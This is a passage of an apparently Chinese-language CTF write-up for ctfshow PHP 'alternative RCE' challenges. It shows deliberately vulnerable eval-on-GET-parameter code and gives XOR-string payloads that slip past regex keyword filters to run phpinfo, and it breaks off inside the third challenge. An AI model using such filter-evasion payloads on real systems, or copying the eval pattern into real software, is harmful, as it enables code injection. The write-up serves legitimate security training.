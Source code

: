 需要匹配正则才行（大概就是`字母^字母^字母`），执行phpinfo就有flag，根据异或的原理

```
?ctfshow=phpinfo^phpinfo^phpinfo
```



## 451-^异或

> hint：另类rce,执行phpinfo就可以拿到flag
>
> ```php
> <?php
> 
> /*
> # -*- coding: utf-8 -*-
> # @Author: h1xa
> # @Date:   2021-02-03 22:57:52
> # @Last Modified by:   h1xa
> # @Last Modified time: 2021-02-04 15:38:05
> # @email: h1xa@ctfer.com
> # @link: https://ctfer.com
> 
> */
> 
> highlight_file(__FILE__);
> $ctfshow=$_GET['ctfshow'];
> 
> 
> if(preg_match('/^[a-z]+[\^][a-z]+[\^][a-z]+$/', $ctfshow)){
>     if(!preg_match('/phpinfo/', $ctfshow)){
>         eval("($ctfshow)();");
>     }
> }
> 
> ```

还是异或，但多了个正则检测，要求$ctfshow里不能有phpinfo

找一个字母单独异或

```
?ctfshow=phpanfo^phpznfo^phprnfo
```

## 452

> hint：另类rce,执行phpinfo就可以拿到flag
>
> ```php
> <?php
> 
> /*
> # -*- coding: utf-8 -*-
> # @Author: h1xa
> # @Date:   2021-02-03 22:57:52
> # @Last Modified by:   h1xa
> # @Last Modified time: 2021-02-04 16:05:23
> # @email: h1xa@ctfer.com
> # @link: https://ctfer.com
> 
> */
> 
> highlight_file(__FILE__);
> $ctfshow=$_GET['ctfshow'];
> 